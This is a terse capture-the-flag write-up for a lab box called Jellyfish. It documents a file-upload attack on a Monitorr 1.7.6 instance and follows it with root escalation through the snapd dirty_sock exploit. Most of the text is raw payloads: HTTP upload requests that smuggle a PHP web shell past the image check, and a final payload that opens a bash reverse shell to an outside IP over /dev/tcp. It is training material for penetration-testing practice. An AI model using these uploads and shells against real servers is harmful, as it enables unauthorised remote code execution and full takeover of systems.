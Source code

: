 # Jellyfish

## Reconn


robyns-petshop.thm

monitorr.robyns-petshop.thm

beta.robyns-petshop.thm

dev.robyns-petshop.thm


Looking for searchsploit Monitor 1.7.6 found exploit

https://www.exploit-db.com/exploits/48980

## Payloads
```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php system($_GET["c"]);?>
-----------------------------31046105003900160576454225745--




POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll5.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php
{php-reverse-shell.php pentestmonkey}
?> 
-----------------------------31046105003900160576454225745--



view-source:https://monitorr.robyns-petshop.thm/assets/data/usrimg/she_ll5.gif.phtml?c=ls%20-al%20/opt/ssh-honeypot

cat /opt/ssh-honeypot/README.md
```

# FINAL PAYLOAD 
```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 320

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=reverse.gif.pHp
Content-Type: image/gif

GIF89a213213123


<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.124/443 0>&1'");?> 
-----------------------------31046105003900160576454225745--

```
# First Access

after running Linpeas.sh in SGID section found snapd with suid

check verson snapd

: snapd --version

2.32.5

: searchsploit snapd 2.32.5

found CVE 2019-7304 

dirty_sock.py

upload exploit on target

running dirty_sock
******
user:dirty_sock

pass:dirty_sock
******

: su dirty_sock

: sudo su

root#>

